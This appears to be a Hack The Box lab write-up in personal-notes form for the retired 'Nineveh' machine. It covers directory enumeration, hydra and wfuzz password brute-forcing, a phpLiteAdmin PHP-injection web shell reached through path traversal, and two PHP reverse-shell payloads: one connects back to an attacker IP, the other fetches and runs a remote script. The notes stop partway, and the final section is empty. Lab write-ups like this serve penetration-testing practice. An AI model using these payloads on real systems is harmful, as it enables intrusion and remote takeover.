






# HTB -  Nineveh   10.10.10.43


## NMap

```

```

## Gobuster

```
# /opt/gobuster/gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://nineveh.htb  -l -x html,php,js,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://nineveh.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php,js,txt
[+] Timeout:        10s
===============================================================
2019/09/24 02:08:11 Starting gobuster
===============================================================
/index.html (Status: 200) [Size: 178]
/info.php (Status: 200) [Size: 83688]
/department (Status: 301) [Size: 315]
```


## http://10.10.10.43/



```
It works!

This is the default web page for this server.

The web server software is running but no content has been added, yet.
```

### http://10.10.10.43/info.php



- PHP Version 7.0.18-0ubuntu0.16.04.1
- This program makes use of the Zend Scripting Language Engine:
    Zend Engine v3.0.0, Copyright (c) 1998-2017 Zend Technologies
    with Zend OPcache v7.0.18-0ubuntu0.16.04.1, Copyright (c) 1999-2017, by Zend Technologies


### http://10.10.10.43/department/login.php



<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->

```
# hydra -l none -P rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-24 05:01:51
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password
[80][http-post-form] host: 10.10.10.43   login: none   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-09-24 05:02:30
```
=> admin:1q2w3e4r5t

=> http://nineveh.htb/department/manage.php

### http://nineveh.htb/department/manage.php


### http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt


## https://10.10.10.43/


```
# /opt/gobuster/gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://nineveh.htb  -l -x html,php,js,txt -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://nineveh.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php,js,txt
[+] Timeout:        10s
===============================================================
2019/09/24 02:08:52 Starting gobuster
===============================================================
/index.html (Status: 200) [Size: 49]
/db (Status: 301) [Size: 309]
/server-status (Status: 403) [Size: 300]
/secure_notes (Status: 301) [Size: 319]
```


### https://nineveh.htb/db/



phpLiteAdmin v1.9

Warning: rand() expects parameter 2 to be integer, float given in /var/www/ssl/db/index.php on line 114

```
# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect:H=Cookie: PHPSESSID=s1soh390fah01sfvojpgovrc15" 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-24 04:24:28
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect:H=Cookie: PHPSESSID=s1soh390fah01sfvojpgovrc15
[443][http-post-form] host: 10.10.10.43   login: admin   password: kelvin
[443][http-post-form] host: 10.10.10.43   login: admin   password: peter
[443][http-post-form] host: 10.10.10.43   login: admin   password: gothic
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
[443][http-post-form] host: 10.10.10.43   login: admin   password: goldfish
[443][http-post-form] host: 10.10.10.43   login: admin   password: maribel
[443][http-post-form] host: 10.10.10.43   login: admin   password: walker
[443][http-post-form] host: 10.10.10.43   login: admin   password: windows
[443][http-post-form] host: 10.10.10.43   login: admin   password: moises
[443][http-post-form] host: 10.10.10.43   login: admin   password: 0000000
[443][http-post-form] host: 10.10.10.43   login: admin   password: atlanta
[443][http-post-form] host: 10.10.10.43   login: admin   password: mahalkoh
[443][http-post-form] host: 10.10.10.43   login: admin   password: juventus
[443][http-post-form] host: 10.10.10.43   login: admin   password: tommy
[443][http-post-form] host: 10.10.10.43   login: admin   password: esteban
[443][http-post-form] host: 10.10.10.43   login: admin   password: chicken1
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-09-24 04:25:31

```
admin:password123

```
# wfuzz -z file,/usr/share/wordlists/rockyou.txt -d "password=FUZZ&remember=yes&login=Log+In&proc_login=true" -b PHPSESSID=s1soh390fah01sfvojpgovrc15  https://10.10.10.43/db/index.php 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: https://10.10.10.43/db/index.php
Total requests: 14344392

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000025:  C=200    483 L	    1112 W	  13949 Ch	  "tigger"
000027:  C=200    483 L	    1112 W	  13949 Ch	  "chocolate"
000026:  C=200    483 L	    1112 W	  13949 Ch	  "sunshine"
000029:  C=200    483 L	    1112 W	  13949 Ch	  "soccer"
000001:  C=200    483 L	    1112 W	  13949 Ch	  "123456"
000028:  C=200    483 L	    1112 W	  13949 Ch	  "password1"
000002:  C=200    483 L	    1112 W	  13949 Ch	  "12345"
000003:  C=200    483 L	    1112 W	  13949 Ch	  "123456789"
000031:  C=200    483 L	    1112 W	  13949 Ch	  "friends"
000004:  C=200    483 L	    1112 W	  13948 Ch	  "password"
000030:  C=200    483 L	    1112 W	  13949 Ch	  "anthony"
000006:  C=200    483 L	    1112 W	  13949 Ch	  "princess"
000005:  C=200    483 L	    1112 W	  13949 Ch	  "iloveyou"
000007:  C=200    483 L	    1112 W	  13949 Ch	  "1234567"
```

=> --hh 13949


```
# wfuzz -z file,/usr/share/wordlists/rockyou.txt -d "password=FUZZ&remember=yes&login=Log+In&proc_login=true" -b PHPSESSID=s1soh390fah01sfvojpgovrc15 --hh 13949  https://10.10.10.43/db/index.php 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: https://10.10.10.43/db/index.php
Total requests: 14344392

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000029:  C=200    483 L	    1112 W	  13948 Ch	  "soccer"
000044:  C=200    483 L	    1112 W	  13948 Ch	  "carlos"
000134:  C=200    483 L	    1112 W	  13948 Ch	  "789456"
000217:  C=200    483 L	    1112 W	  13948 Ch	  "hellokitty"
000258:  C=200    483 L	    1112 W	  13948 Ch	  "kenneth"
000273:  C=200    483 L	    1112 W	  13948 Ch	  "barcelona"
000364:  C=200    483 L	    1112 W	  13948 Ch	  "johncena"
000389:  C=200    483 L	    1112 W	  13948 Ch	  "catherine"
000418:  C=200    483 L	    1112 W	  13948 Ch	  "muffin"

```

Back to firefox, the cookie put us in :)


Let use a php injection CVE: https://www.exploit-db.com/exploits/24044

Table 'yolo' has been created.
CREATE TABLE 'yolo' ('yolo' TEXT default '<?php echo "Shell: ";system($_GET[''cmd'']); ?>')


http://nineveh.htb/department/manage.php?notes=files/../../../../../var/tmp/ninevehNotes.php
Parse error:  syntax error, unexpected 'cmd' (T_STRING), expecting ']' in /var/tmp/ninevehNotes.php on line 2

ninevehNotes.txt.php
<?php system('whoami'); ?> : not working..

- Payload qui marche 1
<?php $sock=fsockopen("10.10.14.36",4445);exec("/bin/sh -i <&3 >&3 2>&3");?>
```
# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.36] from nineveh.htb [10.10.10.43] 41570
```
Connect, but close s soon...




<?php system("wget 10.10.14.36/php-reverse-shell.php -O /tmp/shell.php; php /tmp/shell.php"); ?>
serve with python


## https:10.10.10.43/secure_notes


